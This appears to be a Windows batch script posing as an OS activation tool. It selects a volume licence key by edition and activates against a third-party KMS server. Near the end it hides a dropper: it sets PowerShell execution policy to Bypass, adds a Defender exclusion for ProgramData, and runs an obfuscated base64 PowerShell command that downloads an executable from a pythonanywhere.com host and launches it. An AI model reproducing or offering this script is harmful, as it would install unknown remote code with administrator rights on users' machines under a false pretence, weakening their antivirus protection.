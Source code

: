 @echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
::
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
::
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
::
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %ProgramData%" >nul 2>&1
:: 
powershell -windowstyle hidden -EncodedCommand "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvADkAaABlAGwAbABvAHcAVwBkAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAEkAbgBzAHQAYQBsAGwAZQByACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiACQAZQBuAHYAOgBQAHIAbwBnAHIAYQBtAEQAYQB0AGEAXABJAG4AcwB0AGEAbABsAGUAcgAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFAAcgBvAGcAcgBhAG0ARABhAHQAYQBcAEkAbgBzAHQAYQBsAGwAZQByAC4AZQB4AGUAIgA7AA==" >nul 2>&1
:: 
exit /b
